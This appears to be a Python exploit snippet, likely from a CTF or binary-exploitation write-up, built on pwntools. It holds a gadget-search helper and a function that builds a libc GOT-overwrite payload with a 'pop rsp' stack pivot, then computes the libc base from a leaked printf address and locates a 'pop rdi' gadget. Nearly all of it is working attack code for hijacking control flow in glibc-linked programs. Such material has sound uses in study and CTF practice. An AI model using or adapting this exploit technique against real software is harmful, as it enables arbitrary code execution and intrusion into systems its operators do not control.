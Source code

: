 ```python

class ROPgadget:
    def __init__(self, libc: ELF, base=0):
        if Path("./gadgets").exists():
            print(
                "[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets", 'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),
                           stdout=fp)
            fp.close()
        fp = open("./gadgets", 'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0], 16), x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base = base

    def search(self, s):
        for addr, ctx in self.gadgets:
            match = re.search(s, ctx)
            if match:
                return addr + self.base
        return None


def fx2(libc: ELF, rop_chain, nudge=0):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop2 = ROPgadget(libc, libc.address)
    pivot = rop2.search(r"^pop rsp ; ret")
    if not pivot:
        raise Exception("can't find pivot gadget")
    escape = rop2.search(r"^pop rsp ; .*jmp rax")
    if not escape:
        raise Exception("can't find escape gadget")
    write_dest = got + 8
    got_count = 0x36  # hardcoded
    rop_dest = write_dest + 0x10 + got_count * 8

    rop_chain2 = flat(
        rop_chain,
        escape,
        got + 0x3000 - nudge * 8,  # new rsp
    )
    write_data = flat(
        rop_dest,
        pivot,
        [plt0] * got_count,
        rop_chain2
    )
    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi", 'ret'])[0]
```